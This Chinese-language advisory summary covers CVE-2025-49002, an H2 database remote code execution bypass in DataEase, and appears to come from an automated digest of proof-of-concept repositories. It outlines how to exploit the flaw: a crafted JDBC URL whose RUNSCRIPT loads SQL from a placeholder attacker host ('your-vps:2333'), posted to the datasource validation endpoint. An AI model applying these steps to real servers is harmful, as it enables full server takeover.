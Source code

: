 ## CVE-2025-49002-DataEase-H2数据库远程代码执行绕过

**漏洞编号:** CVE-2025-49002

**漏洞类型:** 远程代码执行

**影响应用:** DataEase

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** < 2.10.10

**利用条件:** 目标服务器开启网络服务，攻击者可以发送恶意请求。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

漏洞存在于DataEase中，是对CVE-2025-32966补丁的绕过。攻击者可以利用H2数据库的`RUNSCRIPT`功能，通过构造特制的JDBC URL，加载远程的SQL脚本并执行，从而实现远程代码执行。绕过的关键在于利用大小写不敏感性绕过对`INIT`和`RUNSCRIPT`的禁用。

**利用方式：**
1.  POC首先构造包含恶意JDBC URL的JSON数据包。
2.  JDBC URL中，使用`RUNSCRIPT FROM 'http://your-vps:2333/poc.sql'`，指定远程SQL脚本的URL。注意这里需要将URL替换为攻击者控制的服务器地址。
3.  POC发送POST请求到`/de2api/datasource/validate`接口，将构造的JSON数据包作为请求体发送。
4.  DataEase服务端解析该JDBC URL，并执行远程SQL脚本，从而实现远程代码执行。

**有效性评估：**
提供的POC代码基本有效。 它构造了一个包含恶意JDBC URL的请求，旨在利用 DataEase 的漏洞执行远程代码。 通过发送精心构造的请求到 `/de2api/datasource/validate` 端点，并包含恶意的 H2 JDBC 连接字符串，可以触发 RCE。

**投毒风险评估：**
根据提供的POC代码，没有明显的投毒行为。 POC的目的看起来是验证漏洞是否存在。 远程脚本`http://your-vps:2333/poc.sql`才包含实际的恶意载荷，这部分需要用户自己配置，风险可控。 因此，投毒风险评估为0%。POC本身只是利用漏洞，不包含任何隐藏的恶意代码用于影响其他用户或者系统。

**项目地址:** [jiuzui129-arch/CVE-2025-49002](https://github.com/jiuzui129-arch/CVE-2025-49002)

**漏洞详情:** [CVE-2025-49002](https://nvd.nist.gov/vuln/detail/CVE-2025-49002)
